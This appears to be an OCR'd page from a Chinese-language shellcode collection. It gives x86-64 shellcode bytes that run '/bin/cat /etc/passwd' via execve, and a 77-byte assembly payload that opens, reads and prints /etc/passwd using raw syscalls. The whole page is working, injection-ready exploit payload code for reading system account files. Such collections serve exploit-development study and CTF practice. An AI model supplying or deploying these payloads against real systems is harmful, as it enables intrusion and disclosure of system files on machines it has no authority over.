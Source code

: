 ```
\x48\x31\xc0\x50\x48\xbb\x63\x2f\x70\x61\x73\x73\x77\x64\x53\x48
\xbb\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x53\x48\x89\xe3\x50\x48\xb9
\x2f\x62\x69\x6e\x2f\x63\x61\x74\x51\x48\x89\xe7\x50\x53\x57\x48
\x89\xe6\x48\x31\xd2\x48\x83\xc0\x3b\x0f\x05
```

### 2.通过系统调用 read (需要sudo)

#### 1.黄 77bytes

```
global _start
section .text

_start:
	jmp _push_filename
  
_readfile:

	pop rdi 
	xor rax, rax
	add al, 2
	xor rsi, rsi 
	add rsi,2
	syscall     ;open('/etc/passwd',0 )

; syscall read file, 0x0
; read(fd, buf, 0xfff), rdi=rax=fd(fd is open's return number)
	sub sp, 0xfff
	lea rsi, [rsp]
	mov rdi, rax			
	xor rdx, rdx
	mov rdx, 0xfff;   rdx  size to read
	xor rax, rax
	syscall         ;ssize_t read(int fd, void *buf, size_t count);  read（） 尝试从文件描述符 fd 读取字节数，从 buf 开始。   rdi=open返回值  rsi栈的地址   
  
; syscall write to stdout, 0x1
	xor rdi, rdi
	inc rdi 		; set stdout fd = 1
	mov rdx, rax
	xor rax, rax
	inc rax
	syscall  	;write(fd, buf, 0xfff)
  
	xor rax, rax
	add al, 60
	syscall    ; syscall exit
_push_filename:
	call _readfile
	path: db "/etc/passwd"
```

